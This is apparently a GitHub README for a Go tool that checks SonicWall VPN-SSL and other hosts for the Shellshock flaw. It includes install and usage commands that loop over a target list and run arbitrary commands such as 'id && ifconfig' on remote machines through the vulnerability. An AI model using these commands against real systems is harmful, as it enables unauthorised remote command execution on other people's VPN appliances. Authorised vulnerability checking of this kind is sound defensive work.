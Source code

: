 # gocheckshock
SonicWall VPN-SSL Exploit Checker* using Golang ( * and other targets vulnerable to shellshock ).

# Install
```
▶ go get -u -v github.com/gustavorobertux/goshock
```
# Basic Usage
### oneliner
```
▶ for i in $(cat list.txt) ; do echo $i | xargs ./main -i ; done
```
### Simple command - Default -c echo
```
▶ ./main -i x.x.x.x
```
### With commands
```
▶ ./main -i x.x.x.x -c id
▶ ./main -i x.x.x.x -c 'id && ifconfig'
```
# Screenshot
<p align="center"><img src="https://github.com/gustavorobertux/gocheckshock/blob/main/goshock_checker.png" width="40%"></p>
